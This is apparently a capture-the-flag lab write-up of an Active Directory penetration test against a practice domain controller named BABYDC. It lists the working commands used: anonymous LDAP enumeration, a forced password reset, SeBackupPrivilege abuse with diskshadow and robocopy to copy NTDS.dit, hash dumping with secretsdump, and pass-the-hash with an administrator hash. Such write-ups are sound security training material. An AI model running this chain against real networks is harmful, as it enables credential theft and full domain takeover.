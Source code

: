 This document provides a step-by-step walkthrough of an Active Directory penetration test on the target machine (BABYDC). The purpose was to enumerate and exploit weaknesses in the environment to gain administrative access.

Tools Used

    Nmap: Network scanning and enumeration
    Netexec (nxc): LDAP and SMB enumeration
    smbpasswd: Password manipulation tool
    Evil-WinRM: Remote access for Windows machines
    Diskshadow: Volume shadow copy manipulation
    Robocopy: File transfer within Windows
    Secretsdump.py: Hash extraction from NTDS.dit
    
Summary of Attacks

    Network Enumeration: Identified open ports and services running on the target.
    LDAP Enumeration: Retrieved sensitive user information via anonymous bind.
    Password Change: Identified a valid user and changed their password to gain access.
    Privilege Escalation: Leveraged the SeBackupPrivilege to extract sensitive data (NTDS.dit and SYSTEM hive).
    Hash Dumping and Admin Access: Extracted NTLM hashes to gain administrative access and retrieve the final flag.
    Nmap de la box :

Enumeration

Using Nmap, open ports and services were identified:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-13 01:11:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal 
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```


![i](Images/20241213023917.png)

A connection test revealed a valid connection via SMB without authentication but failed user or share enumeration:

![i](Images/20241213024456.png)

Anonymous LDAP bind returned useful information about domain users:

![i](Images/20241213024523.png)

LDAP Enumeration

Using the get-desc-users module in Netexec, further details about user accounts were retrieved:

nxc ldap 10.10.126.10 -u "" -p "" -M get-desc-users  

![i](Images/20241213024833.png)

4.3 Password Change and Privilege Verification

An error message revealed that Caroline.Robinson had a valid account but required a password reset. 

![i](Images/20241213031525.png)
 
The password was reset to Password123 using:
smbpasswd -r 10.10.126.10 -U caroline.robinson 

Access was verified, and user privileges were checked using Netexec and the whoami /priv command:

nxc winrm 10.10.126.10 -u caroline.robinson -p "Password123" -X "whoami /priv" 

![i](Images/20241213061303.png)

The SeBackupPrivilege was identified, enabling access to sensitive files.
A shadow copy was created using Diskshadow, and the NTDS.dit and SYSTEM hive were extracted:

    Create a shadow copy:
raj.dsh contents:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

```
unix2dos raj.dsh
```

Upload and execute commands via Evil-WinRM:
```
cd C:\Temp
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```


```
reg save hklm\system c:\Temp\system
```

Download files locally:```
download ntds.dit
download system
```

Hash Extraction and Privilege Escalation

The Secretsdump tool was used to extract NTLM hashes:
```
secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```

![i](Images/20241213062005.png)

Using the NT hash for the administrator account, final access was gained, and the last flag retrieved:

 nxc winrm 10.10.126.10 -u administrator -H ee4457ae59f1e3fbd764e33d9cef123d -X "cat C:\Users\Administrator\Desktop\root.txt"
 
![i](Images/20241213062049.png)
